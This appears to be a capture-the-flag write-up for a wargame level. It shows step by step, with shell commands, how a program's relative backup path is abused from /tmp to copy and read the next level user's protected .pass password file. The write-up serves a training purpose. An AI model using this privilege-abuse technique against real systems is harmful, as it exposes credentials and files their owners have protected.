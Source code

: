 
# Level08 - Exploiting Relative Path Vulnerability to Access Protected File

## Objective

The goal of this challenge is to exploit a relative path vulnerability in the program to access a protected file.

## Step 1: Running the Program

First, let's run the program to observe its behavior:

```bash
$ ./level08
Usage: ./level08 filename
ERROR: Failed to open (null)
```

The program expects a filename as an argument.

## Step 2: Testing with a Target File

Try running the program with the file path of the target:

```bash
$ ./level08 ~level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

The program attempts to open the file `./backups//home/users/level09/.pass` using a relative path.

## Step 3: Creating the Required Directory Structure

Since the program is using a relative path, we can exploit this by creating the necessary directory structure in a writable location like `/tmp`.

### Creating the Path in `/tmp`

Change to `/tmp` and create the required directory structure:

```bash
$ cd /tmp
$ mkdir -p ./backups//home/users/level09/
```

## Step 4: Running the Program from `/tmp`

Run the program from `/tmp` to match the expected path:

```bash
$ ~/level08 ~level09/.pass
```

## Step 5: Reading the Output File

After running the program, check the created file:

```bash
$ cat backups/home/users/level09/.pass
```

This approach demonstrates how the relative path vulnerability in the program can be exploited to gain unauthorized access to protected files by manipulating the working directory structure.
